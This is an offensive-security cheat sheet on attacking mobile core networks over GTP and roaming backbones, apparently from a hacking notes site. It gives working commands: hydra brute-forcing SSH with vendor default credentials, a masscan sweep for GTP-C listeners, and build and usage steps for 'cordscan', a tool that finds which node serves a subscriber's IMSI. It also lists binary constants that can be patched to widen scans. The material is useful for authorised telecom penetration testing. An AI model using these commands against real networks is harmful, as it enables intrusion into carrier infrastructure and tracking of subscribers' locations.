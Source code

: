 # Telecom Network Exploitation (GTP / Roaming Environments)

> [!NOTE]
> Mobile-core protocols (GPRS Tunnelling Protocol – GTP) often traverse semi-trusted GRX/IPX roaming backbones.  Because they ride on plain UDP with almost no authentication, **any foothold inside a telecom perimeter can usually reach core signalling planes directly**.  The following notes collect offensive tricks observed in the wild against SGSN/GGSN, PGW/SGW and other EPC nodes.

## 1. Recon & Initial Access

### 1.1  Default OSS / NE Accounts
A surprisingly large set of vendor network elements ship with hard-coded SSH/Telnet users such as `root:admin`, `dbadmin:dbadmin`, `cacti:cacti`, `ftpuser:ftpuser`, …  A dedicated wordlist dramatically increases brute-force success:

```bash
hydra -L usernames.txt -P vendor_telecom_defaults.txt ssh://10.10.10.10 -t 8 -o found.txt
```

If the device exposes only a management VRF, pivot through a jump host first (see section «SGSN Emu Tunnel» below).

### 1.2  Host Discovery inside GRX/IPX
Most GRX operators still allow **ICMP echo** across the backbone.  Combine `masscan` with the built-in `gtpv1` UDP probes to quickly map GTP-C listeners:

```bash
masscan 10.0.0.0/8 -pU:2123 --rate 50000 --router-ip 10.0.0.254 --router-mac 00:11:22:33:44:55
```

## 2. Enumerating Subscribers – `cordscan`

The following Go tool crafts **GTP-C Create PDP Context Request** packets and logs the responses.  Each reply reveals the current **SGSN / MME** serving the queried IMSI and, sometimes, the subscriber’s visited PLMN.

```bash
# Build
GOOS=linux GOARCH=amd64 go build -o cordscan ./cmd/cordscan

# Usage (typical):
./cordscan --imsi 404995112345678 --oper 40499 -w out.pcap
```
Key flags:
- `--imsi` Target subscriber IMSI
- `--oper` Home / HNI (MCC+MNC)
- `-w`      Write raw packets to pcap

Important constants inside the binary can be patched to widen scans:

```
pingtimeout       = 3   // seconds before giving up
pco               = 0x218080
common_tcp_ports  = "22,23,80,443,8080"
```
